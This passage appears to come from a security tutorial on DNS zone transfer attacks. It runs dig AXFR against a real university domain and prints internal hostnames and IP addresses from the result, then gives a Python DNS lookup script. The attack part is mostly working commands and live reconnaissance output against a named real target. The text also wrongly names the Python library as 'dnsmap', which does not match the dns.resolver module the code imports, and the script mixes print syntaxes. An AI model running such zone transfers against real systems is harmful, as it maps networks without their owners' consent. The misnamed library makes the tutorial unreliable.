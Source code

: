 ```bash
verax@untamed $ dig +nocmd +nocomments NS iitk.ac.in
;iitk.ac.in.			IN	NS
iitk.ac.in.		43200	IN	NS	proxy.iitk.ac.in.
iitk.ac.in.		43200	IN	NS	ns1.iitk.ac.in.
iitk.ac.in.		43200	IN	NS	ns2.iitk.ac.in.
```

- Let\'s initiate a zone transfer with the nameserver `ns1.iitk.ac.in.`, for domain `iitk.ac.in`. As a result of the query we retrived 166 records, with careful analysis it\'s trivial to map the internal network. Another interesting note is that SOA record is retrived before initiating a zone transfer.

```bash
verax@untamed ~/$ dig +nocmd +nocomments AXFR @ns1.iitk.ac.in. iitk.ac.in
iitk.ac.in.		43200	IN	SOA	ns1.iitk.ac.in. root.ns1.iitk.ac.in. 201609222 10800 3600 1209600 43200
iitk.ac.in.		43200	IN	NS	ns1.iitk.ac.in.
iitk.ac.in.		43200	IN	NS	ns2.iitk.ac.in.
iitk.ac.in.		43200	IN	NS	proxy.iitk.ac.in.
home.iitk.ac.in.	43200	IN	A	202.3.77.174
m3cloud.iitk.ac.in.	43200	IN	A	103.246.106.161
mail.iitk.ac.in.	43200	IN	A	202.3.77.162
[... snipped ...]
mail4.iitk.ac.in.	43200	IN	A	202.3.77.189
webmail.iitk.ac.in.	43200	IN	A	202.3.77.185
www.webmap.iitk.ac.in.	43200	IN	A	202.3.77.74
wiki.iitk.ac.in.	43200	IN	A	103.246.106.116
www.iitk.ac.in.		43200	IN	A	202.3.77.184
iitk.ac.in.		43200	IN	SOA	ns1.iitk.ac.in. root.ns1.iitk.ac.in. 201609222 10800 3600 1209600 43200
;; Query time: 219 msec
;; SERVER: 202.3.77.171#53(202.3.77.171)
;; WHEN: Wed Oct 12 18:38:01 IST 2016
;; XFR size: 166 records (messages 1, bytes 3769)
```

###### Zone transfer attack using Python

- Python does\'nt have an inbuit DNS module. We\'ll use `dnsmap`, a third party module/toolkit for DNS operations in Python.
- Let\'s find out the nameservers for the domain `iitk.ac.in` using dnsmap. I\'ll go ahead and retrive all the common DNS records for the domain.
  - `dns.resolver` is the client part of dnsmap.
  - `dns.resolver.query` is how you make a query. provide domain name, query type as arguments.

```python
import argparse, dns.resolver

def lookup(name):
    print name
    for qtype in 'A', 'AAAA', 'MX', 'TXT', 'SOA':
        answer = dns.resolver.query(name,qtype, raise_on_no_answer=False)
        if answer.rrset is not None:
            print(answer.rrset)

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Resolve a name using DNS')
    parser.add_argument('name', help='name that you want to look up in DNS')
    lookup(parser.parse_args().name)
```
